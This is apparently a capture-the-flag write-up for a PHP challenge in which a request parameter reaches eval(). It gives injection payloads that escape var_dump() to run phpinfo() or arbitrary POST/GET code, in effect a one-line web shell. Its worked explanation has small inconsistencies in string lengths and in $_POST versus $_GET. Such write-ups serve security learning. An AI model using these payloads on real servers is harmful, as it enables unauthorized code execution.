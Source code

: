 # Challenge 
```php 
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```

# Solution
payload1:
```
?hello=);eval($_POST['A']);%2f%2f

或

?hello=);eval(phpinfo());//
```
var_dump($a);后的结果为  `string(22) ");eval($_POST['A']);//" `
即 `eval("string(21) ");eval($_GET['A']);//""); `

payload2:
```
?hello=);eval($_GET[c]&c=phpinfo();
```
即 eval("string(17) ");eval($_GET[c]" string(0) "" ");

# Refference
+ [XNUCA 赛前指导 default](http://218.76.35.74:20131/index2.php)